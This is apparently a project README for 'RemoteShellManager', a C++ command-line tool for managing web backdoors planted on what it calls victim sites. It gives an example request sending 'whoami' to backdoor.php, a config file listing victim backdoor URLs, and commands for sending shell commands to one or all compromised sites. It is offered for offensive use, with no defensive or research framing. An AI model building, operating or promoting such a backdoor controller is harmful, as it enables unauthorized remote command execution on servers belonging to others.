 # RemoteShellManager
RemoteShellManager is utility to control your backdoors on victim sites.

# Basement
Coded on C++ with curl. Cross-platform project.

# How it is works?
This utility keep base with all your **web-backdoors** on **your disk**.

When you want to send request to all victims or selected victim you write id of victim.

Then you write your command. After all RemoteShellManager send request like this: ```"http://url.here/backdoor.php?cmd=whoami"```.

For this example command is "whoami". Answer(s) of request(s) you'll see.

**Utility can send only GET requests!**

# Config file
For add/remove use relevant commands.

Config file structure looks like:
```
1    http://url1.here/backdoor.php?cmd=
2    http://url2.here/backdoor.php?cmd=
3    http://url3.here/backdoor.php?cmd=
```
First column is ID. Second column is victim site.

Name of config file is backdoor_base.conf


# Commands and their templates.
```
help - Show message with commands
exit - Exit
clear - Clear screen. Works only on linux, because it using system("clear")
add <url here with backdoor param> - Add record to base. ID will be assigned automaticlly
remove <id> - Remove backdoor with <id> from base
show - Show all records from base
sendto <id> <command> - Send command to <id> victim.
send <command> - Send command to all victims.

```
